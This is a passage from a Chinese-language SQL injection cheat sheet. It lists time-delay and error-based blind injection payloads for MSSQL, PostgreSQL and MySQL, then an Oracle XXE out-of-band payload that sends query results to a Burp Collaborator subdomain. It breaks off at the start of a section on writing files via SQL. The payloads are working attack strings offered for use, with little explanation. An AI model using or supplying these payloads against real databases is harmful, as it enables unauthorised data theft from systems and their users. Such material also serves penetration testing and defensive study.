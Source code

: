 延时盲注：

```
';IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'

```

##### PostgreSQL：

条件错误，看页面返回状态码盲注：

```
1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)

```

延时盲注：

```
';SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
如：
';SELECT CASE WHEN (length(username)&gt;0) THEN pg_sleep(10) ELSE pg_sleep(0) END from users limit 1
逻辑上相当于：
select username from users limit 1

```

##### MySQL：

条件错误，看页面返回状态码盲注：

```
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

```

延时盲注：

```
';SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')

```

#### 如果都不可以，则尝试XXE配合进行外带注入：

```
SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual

```

#### sql文件写入：

##### 1. 前提：

```
show global variables like '%secure%';		//可以查看是否有读取权限，可以修改其的值进行防止文件读取

```
